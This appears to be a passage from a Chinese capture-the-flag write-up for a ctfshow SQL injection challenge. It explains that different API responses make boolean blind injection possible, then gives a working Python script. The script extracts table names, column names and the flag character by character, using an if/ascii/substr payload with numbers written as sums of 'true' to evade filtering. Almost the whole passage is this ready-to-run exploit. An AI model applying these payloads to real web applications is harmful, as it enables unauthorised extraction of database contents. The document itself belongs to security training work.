给u随便传值，如果u是数字返回`{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25","count":1,"data":[]}`,如果u是username，会返回`{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"ctfshow","pass":"ctfshow"},{"id":"2","username":"user1","pass":"111"},{"id":"3","username":"user2","pass":"222"},{"id":"4","username":"userAUTO","pass":"passwordAUTO"}]}`

通过返回结果不同，可以使用布尔盲注

```python
"""
Author:Y4tacker
"""
import requests


def generateNum(num):
    res = 'true'
    if num == 1:
        return res
    else:
        for i in range(num - 1):
            res += "+true"
        return res


url = "http://ff765902-0dec-4688-8cd2-1a4cc429d30a.chall.ctf.show/api/"
i = 0
res = ""
while 1:
    head = 32
    tail = 127
    i = i + 1

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库-ctfshow_flagas
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段-flagasabc
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
        # 查flag
        payload = "select flagasabc from ctfshow_flagas"
        params = {
            "u": f"if(ascii(substr(({payload}),{generateNum(i)},{generateNum(1)}))>{generateNum(mid)},username,'a')"
        }
        r = requests.get(url, params=params)
        # print(r.json()['data'])
        if "userAUTO" in r.text:
            head = mid + 1
        else:
            tail = mid
    if head != 32:
        res += chr(head)
    else:
        break
    print(res)
```
